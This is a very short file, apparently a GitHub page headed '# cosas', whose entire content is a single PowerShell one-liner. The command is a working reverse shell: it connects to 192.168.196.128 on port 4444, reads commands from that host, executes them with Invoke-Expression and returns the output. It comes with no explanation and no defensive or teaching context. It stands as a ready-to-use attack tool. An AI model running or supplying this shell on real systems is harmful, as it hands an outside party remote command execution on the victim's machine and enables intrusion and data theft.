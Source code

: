# cosas
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.196.128', 4444); $stream = $client.GetStream(); $writer = New-Object System.IO.StreamWriter($stream); $reader = New-Object System.IO.StreamReader($stream); while ($true) { $writer.WriteLine($reader.ReadLine()); $writer.Flush(); $input = $reader.ReadLine(); if ($input -eq 'exit') { break; } else { $output = Invoke-Expression $input; $writer.WriteLine($output); $writer.Flush(); } } $client.Close()"


